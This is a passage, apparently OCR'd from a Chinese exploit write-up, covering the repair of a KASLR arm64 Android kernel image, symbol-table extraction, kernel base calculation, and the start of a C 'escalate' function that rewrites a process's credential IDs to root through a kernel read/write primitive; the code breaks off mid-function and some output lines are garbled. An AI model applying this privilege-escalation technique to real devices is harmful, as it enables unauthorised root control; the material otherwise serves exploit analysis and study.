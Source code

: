     ```
    4. 用droidimg中的工具修复Image
    ```bash
    $ gcc -o fix_kaslr_arm64 fix_kaslr_arm64.c
    fix_kaslr_arm64.c:269:5: warning: always_inline function might not be inlinable [-Wattributes]
    int main(int argc, char **argv)
     ^~~~
    $ ./fix_kaslr_arm64 Image Image_kaslr
    Origiellnal kernel: Image, output file: Image_kaslr
    kern_buf @ 0x7f7eb403c000, mmap_size = 37502976
    rela_start = 0xffffff8009916430
    p->info = 0x0sh
    rela_end = 0xffffff800a1b0340
    375847 entries processed
    ```

    5. 导出符号表
    ```bash
    $ ./vmlinux.py Image_kaslr > syms.txt
    Linux version 4.4.169-gee9976dde895 (android-build@abfarm325) (Android clang version 5.0.300080 (based on LLVM 5.0.300080)) #1 SMP PREEMPT Wed Mar 6 01:42:27 UTC 2019
    [+]kallsyms_arch = arm64
    [+]numsyms: 131300
    [+]kallsyms_address_table = 0x11eb300
    [+]kallsyms_num = 131300 (131300)
    [+]kallsyms_name_table = 0x12ebc00
    [+]kallsyms_type_table = 0x0
    [+]kallsyms_marker_table = 0x14a4a00
    [+]kallsyms_token_table = 0x14a5b00
    [+]kallsyms_token_index_table = 0x14a5f00
    [+]kallsyms_start_address = 0xffffff8008080000L
    [+]found 9917 symbols in ksymta
    ```
    6. 根据导出符号表的地址和基址`(kallsyms_start_address = 0xffffff8008080000L)`计算偏移
- 内核基址
    - 有了符号表偏移后要计算基址只需泄露出某个符号的地址再减去符号表中该符号的偏移即可

    - 找task_struct->mm->user_ns地址，减去init_user_ns偏移
- 修改属性
  - 直接用基址+偏移的方式找到系统属性的地址再修改即可


#### 5.2 漏洞利用——提权
- `escalate`函数利用之前获得的内核读写权限进行提权。为了得到`full root`即完整root权限，需要绕过linux中多个安全机制（这里仅提出所绕过安全机制的类型，并不对机制做详细解释），不过有了内核读写权限后绕过也不是特别麻烦。权部分代码（其中`DEBUG_RW`用于打印额外信息帮助理解）：
```c
void escalate()
{
  ......

  uid_t uid = getuid();
  unsigned long my_cred = kernel_read_ulong(current_ptr + OFFSET__task_struct__cred);
  // offset 0x78 is pointer to void * security
  unsigned long current_cred_security = kernel_read_ulong(my_cred+0x78);

  printf("current->cred == 0x%lx\n", my_cred);

  printf("Starting as uid %u\n", uid);
  printf("Escalating...\n");

  // change IDs to root (there are eight)
  for (int i = 0; i < 8; i++)
    kernel_write_uint(my_cred+4 + i*4, 0);

  if (getuid() != 0) {
```